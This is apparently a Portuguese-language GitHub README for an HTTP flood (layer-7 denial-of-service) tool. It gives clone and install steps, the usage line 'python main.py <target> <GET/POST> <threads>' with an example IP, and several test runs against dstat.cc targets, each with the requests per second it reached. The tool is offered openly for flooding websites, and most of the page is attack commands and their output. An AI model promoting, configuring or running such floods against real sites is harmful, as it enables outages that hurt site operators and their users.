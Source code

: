 # Python-HTTP-Flood

Uma simples ferramenta de HttpFlood feita com Python

## Install
```sh
git clone https://github.com/e43b/Python-HTTP-Flood/
cd Python-HTTP-Flood
pip install -r requirements.txt  
```

## Usage 
```sh
python main.py <target> <GET/POST> <threads>
example: python main.py http://51.159.30.249 POST 1500
```

Pc usado para rodar o script é uma máqiquina virtual com 1 nucleo e 2gb de ram

testes foram feitos no site `https://dstat.cc/` na layer 7 o site `http://142.171.195.145/HIT` na categoria `L7 Non Protected` e o site `https://nodec.mediathektv.com` na cátegoria `L7 Non Protected SSL`

## Testes na pática `POST`
https://dstat.cc/l7?id=MULTACOM-CORPORATION
![MULTACOM-CORPORATION](dstat/142post.png)
`python main.py http://142.171.195.145/HIT POST 500`
### Requisições por segundo
máxima: 1500
media: 1000

https://dstat.cc/l7ssl?id=FDCservers-1
![FDCservers-1](dstat/nodecpost.png)
`python main.py https://nodec.mediathektv.com POST 700`
### Requisições por segundo
máxima: 2800
media: 1500

## Testes na pática `GET`
https://dstat.cc/l7?id=MULTACOM-CORPORATION
![MULTACOM-CORPORATION](dstat/142get.png)
`python main.py http://142.171.195.145/HIT GET 500`
### Requisições por segundo
máxima: 3000
media: 1000

https://dstat.cc/l7ssl?id=FDCservers-1
![FDCservers-1](dstat/nodecget.png)
`python main.py https://nodec.mediathektv.com GET 700`
### Requisições por segundo
máxima: 2200
media: 1500
